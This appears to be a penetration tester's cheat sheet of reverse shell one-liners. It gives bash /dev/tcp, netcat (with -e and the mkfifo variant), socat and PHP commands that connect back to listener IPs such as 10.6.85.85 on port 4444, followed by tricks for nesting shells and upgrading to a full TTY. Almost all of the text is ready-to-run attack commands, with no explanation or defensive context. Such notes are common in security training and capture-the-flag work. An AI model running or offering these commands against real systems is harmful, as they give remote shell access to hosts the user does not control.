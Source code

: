 Web shells 

Reverse shell commands  
bash
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):        
    nc -e /bin/sh 172.16.5.1 4242   
nc openbsd (no -e):     
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f
socat                     
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444
PHP            
   php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
Also Ruby, Java and Python: Reverse shells cheat sheet    

Nesting shells                
  bash -p    /bin/sh -p 


Upgrading to a pseudo terminal / tty
   python -c 'import pty;pty.spawn("/bin/bash")' 
  echo os.system('/bin/bash')
   /bin/sh -i
   vi -> :sh or :!UNIX_command
  
  
  SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
